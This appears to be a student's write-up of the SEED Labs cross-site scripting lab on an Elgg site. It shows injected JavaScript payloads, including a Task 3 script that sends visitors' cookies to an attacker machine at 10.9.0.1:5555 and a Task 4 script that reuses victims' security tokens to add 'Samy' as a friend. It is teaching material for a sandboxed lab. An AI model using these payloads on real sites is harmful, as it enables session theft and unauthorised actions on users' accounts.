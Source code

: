 # Cross-Site Scripting Attack Lab #10

This week's suggested lab was [Cross-Site Scripting (XSS) Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/), from SEED labs. Cross-site scripting is a vulnerability that allows attackers to inject malicious code (e.g., JavaScript programs) into victims' web browsers. Using this malicious code, attackers can steal a victim’s credentials, such as session cookies. The access control policies (i.e., the same-origin policy) employed by browsers to protect those credentials can be bypassed by exploiting XSS vulnerabilities.

## Task 1

In this task, we have to inject the following JavaScript code into our Elgg profile:

```javascript
alert("XSS");
```

This code should be executed whenever someone views our profile. To achieve this goal, we can update our "brief description" field as follows:

<figure align="center">
  <img src="images/fig7.png"/>
  <figcaption>Figure 1. XSS injection.</figcaption>
</figure>

Every time someone views our profile, the following popup will show up:

<figure align="center">
  <img src="images/fig8.png"/>
  <figcaption>Figure 2. Injected JavaScript execution.</figcaption>
</figure>

## Task 2

This task also aims to inject JavaScript code that will be executed whenever someone views our profile. However, we want to display the user's cookies in the alert window this time.

To accomplish this, we can update the "brief description" section, as the previous task:

<figure align="center">
  <img src="images/fig9.png"/>
  <figcaption>Figure 3. XSS injection.</figcaption>
</figure>

Every time someone views our profile, the injected Javascript code will be executed, and the following window will show up:

<figure align="center">
  <img src="images/fig10.png"/>
  <figcaption>Figure 4. Injected JavaScript execution.</figcaption>
</figure>

## Task 3

As in the previous task, only users could see their own browser's cookies. In this task, we, as an attacker, want the cookies to be sent to our machine.

As proposed, we can do this by injecting an HTML tag that will perform a request. In this case, the `<img>` tag can be used since the URL in the `src` field is used to perform an HTTP GET request. So we can write the attacker machine's address with a specific port that the attacker can be listening to. This way, while listening to that port using, for example, `netcat`, the attacker can see requests sent from the users' browser, with their cookies as parameters in the URL.

```html
<script>
	document.write(
		"<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >"
	);
</script>
```

<figure align="center">
  <img src="images/fig11.png"/>
  <figcaption>Figure 5. Script injection in user profile.</figcaption>
</figure>

<figure align="center">
  <img src="images/fig12.png"/>
  <figcaption>Figure 6. Request received in attacker's machine.</figcaption>
</figure>

As shown in figure X, the attacker can see that a GET request was received, and, next to `/?c=`, they can see the user's cookies.

## Task 4

In this last task, we want to write an XSS worm that automatically adds user "Samy" as a friend to any user that visits his page.

We can do something similar to the other tasks and embed a JavaScript program in Samy's profile. However, this code must make any user who visits the page send the appropriate request to add Samy as a friend.

In order to find how to write this request, we can, while logged in as Samy, inspect the "Add Friend" button on another user's page:

<figure align="center">
  <img src="images/fig13.png"/>
  <figcaption>Figure 7. "Add friend" button inspection.</figcaption>
</figure>

By inspecting the button element, we can see that a request is sent to the URL `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1641939671&__elgg_token=OvXl8SQ39WUqvGa_Auct7A`, with the `friend` parameter being the ID of the user to be added and the following parameters being tokens for user authentication.

We could find Samy's ID by inspecting the "Members" page. In the member list of this page, the list elements contained the IDs of every member in the list, including Samy, which was 59.

<figure align="center">
  <img src="images/fig14.png"/>
  <figcaption>Figure 8. Members list inspection with Samy's ID.</figcaption>
</figure>

With this information, we can create a request that will add Samy as a friend when executed in a script on other users' browsers. This request has the following URL:
`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=user_ts&__elgg_token=user_token`, with the fields `__elgg_ts` and `__elgg_token` being generated in the script, according to the user's current token.

So the final script should be the following:

```javascript
window.onload = function () {
	var Ajax = null;
	var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
	var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

	var sendurl =
		"http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

	Ajax = new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
};
```

We can then insert the code on a `<script>` tag and write it in the "About me" field of Samy's profile page, having clicked on "Edit HTML" beforehand:

<figure align="center">
  <img src="images/fig15.png"/>
  <figcaption>Figure 9. Embedded JavaScript for attack.</figcaption>
</figure>

Furthermore, now every user who visits Samy's profile page will have the script running in their machine and send a request automatically adding Samy as their friend.

Regarding the last questions:

-   Explain the purpose of Lines 1 and 2, why are they are needed?
    As part of the HTTP request to send to the server, we need lines 1 and 2 to correctly identify the person who's adding Samy.

-   If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    The Editor mode adds extra HTML code to the text typed into the field which makes it not executable. So the attack will not launch.
